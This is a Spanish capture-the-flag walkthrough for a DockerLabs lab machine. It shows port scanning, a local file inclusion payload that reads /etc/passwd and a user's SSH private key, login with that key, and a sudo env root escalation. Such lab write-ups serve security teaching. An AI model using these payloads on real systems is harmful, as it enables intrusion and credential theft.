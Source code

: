 ```yaml
---
title: Pntopntobarra - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | maciiii___        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/44261ae0-a713-4bbd-a656-5faac24621f1)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `80` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p22,80 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/29121e08-d26c-45c2-aef1-be7698e0a060)

# Exploración Web

En el puerto `80`, vemos que hay una pagina web la cual contiene un mensaje de Advertencia y dos botones uno que pone `Hacer clic aquí podría empeorar la situación.` y otro que pone `Ejemplos de computadoras infectadas`.

![image](https://github.com/user-attachments/assets/303820c1-440e-4ad1-b3b0-6e5d1e27018c)


Viendo que codigo fuente vemos que `Ejemplos de computadoras infectadas` vemos que nos redirige a esta ruta `ejemplos.php?images=./ejemplo1.png'`.

![image](https://github.com/user-attachments/assets/b86d67c6-9b0e-4fa4-810d-d617e6d4ad5c)

Vamos a acceder a esa ruta antes que cualquier cosa.

![image](https://github.com/user-attachments/assets/ee0c3bfc-c679-47cf-bcc2-9fdc25cc7eca)

La ruta que podemos ver, lo primero que se me ocurre es porbar la vulnerabiliadad LFI (Explica brevemente).Para ello pondremo lo siguiente.

```URL
http://172.17.0.2/ejemplos.php?images=./../../../etc/passwd
```
![image](https://github.com/user-attachments/assets/da7342eb-23a3-4476-b2a8-36cf38cfaa5f)

Vamos a ver que mas podemos hacer , ya que el puerto `22` esta abierto vamos a ver si podemos sacar el `.ssh` de algun usuario.

![image](https://github.com/user-attachments/assets/3d27550e-5c05-45ba-8a24-d9f12a312002)

# Intrusion

Existe el usuario `nico` por lo que probaremos si tiene su `id_rsa` (Explica que es brevemente) y asi poder acceder desde su usuario.

```URL
http://172.17.0.2/ejemplos.php?images=./../../../home/nico/.ssh/id_rsa
```
![image](https://github.com/user-attachments/assets/4b2a0dea-55c1-4d11-816f-e6617861c8eb)

Ya obtuvimos su` id_rsa `.

La copiamos en nuestra maquina y accedemos con ella. 

```bash
ssh -i id_rsa  nico@172.17.0.2                        
```

Ya estamos dentro con el usaurio `nico`.

![image](https://github.com/user-attachments/assets/864916ad-318b-4853-a86f-6b4110b300b8)


# Escalada de Privilegios.

Al ejecutar `sudo -l`, notamos que spencer tiene permisos para ejecutar `env` como `root`.Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/d2ca0d5c-82ce-432f-8d60-329ce7205c51)

```bash
sudo env /bin/sh
```
Con este comando, obtuvimos acceso root.

![image](https://github.com/user-attachments/assets/aee995db-8183-4286-9b25-71893c4199d3)
